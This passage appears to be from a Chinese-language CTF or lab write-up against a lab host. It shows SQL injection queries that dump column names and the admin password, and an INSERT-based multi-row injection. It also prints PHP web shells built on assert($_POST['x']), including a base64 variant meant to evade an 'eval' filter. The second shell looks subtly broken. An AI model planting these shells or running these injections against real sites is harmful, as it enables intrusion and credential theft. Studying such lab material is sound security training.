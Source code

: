 ![image-20241126155016110](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126155016110.png)

使用插件进行爆表名、列名

```
SELECT GROUP_CONCAT(column_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=0x757365727331
```

最后数据爆破，可以直接爆password

![image-20241126160428547](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126160428547.png)

也可以爆admin用户的password

```
SELECT password FROM 2web.users1 WHERE username=‘admin’
```

![image-20241126161520496](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126161520496.png)

#### 方式二：注释过滤，insert构造多条语句插入，使用')或者'(进行后闭合

insert into artical(...,title,content,usename)value(...,'zzz','aaa','a'),('',...,'','','')

insert into artical(...,title,content,usename)value(...,'**`','',''),('`**',...,'','')

因为title之前有几个字段未知，所以在后闭合中对于前面是否有字段要进行碰撞

![image-20241126165349230](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126165349230.png)

第一次碰撞失败，给title之前加一列`‘’`继续

![image-20241126164801256](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126164801256.png)

第二次碰撞成功，即一共是四个字段

接下来和之前一样进行数据库的爆破即可获得key

![image-20241126165604968](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126165604968.png)

### 34012 文件上传

![image-20241126165749801](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126165749801.png)

上传逻辑

http://11.1.10.12:34012/vulnerabilities/pic.jpg

此题过滤点：eval关键字、php后缀

补充木马：

```
<?php assert($_POST['x']); ?>
```

```
<?php 
$z=base64_decode('YXNzZXJ0');$z=($_POST['x']);
?>

//YXNzZXJ0这里是assert的base64编码，但是不能替换为eval的编码，关键字不能进行编码调用！！！
```
